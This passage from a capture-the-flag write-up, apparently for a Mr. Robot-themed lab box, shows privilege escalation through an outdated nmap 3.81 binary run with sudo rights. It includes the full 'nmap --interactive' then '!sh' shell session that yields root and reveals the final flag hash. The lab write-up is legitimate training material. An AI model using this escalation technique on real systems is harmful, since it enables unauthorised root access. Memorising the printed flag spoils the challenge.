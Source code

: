 Attempting to exploit this misconfiguration proved challenging. However, upon fiddling with the binary, I noticed it was `nmap v.3.81` - a very old one, dating way way back to ***2005***. 

![GTFOBins: nmap (SUDO)](nmap_sudo.png)
Upon closer inspection, this version seemed to be vulnerable to the SUDO exploit mentioned in scenario B of the aforementioned GTFOBins section.

It was time to test this out.

```bash
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
# 
```

And just like that, we now both have root access and the last key: `04787ddef27c3dee1ee161b21670b4e4`.
